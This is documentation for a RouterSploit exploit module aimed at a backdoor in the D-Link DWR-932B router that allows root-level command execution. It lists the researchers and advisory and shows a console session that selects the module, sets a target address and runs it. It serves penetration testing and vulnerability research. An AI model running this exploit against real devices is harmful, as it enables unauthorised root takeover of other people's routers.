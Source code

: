 # D-LINK DWR-932B

## Description
Module exploits D-Link DWR-932B backdoor vulnerability which allows executing command on operating system level with root privileges.

## Authors
* Pierre Kim @PierreKimSec # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://pierrekim.github.io/advisories/2016-dlink-0x00.txt](https://pierrekim.github.io/advisories/2016-dlink-0x00.txt)

## Vulnerable devices
* D-Link DWR-932B

## Usage
```
rsf > use exploits/dlink/dwr_932b_backdoor
rsf (D-LINK DWR-932B) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. 192.168.1.1


rsf (D-LINK DWR-932B) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-LINK DWR-932B) > run
[*] Running module...
```
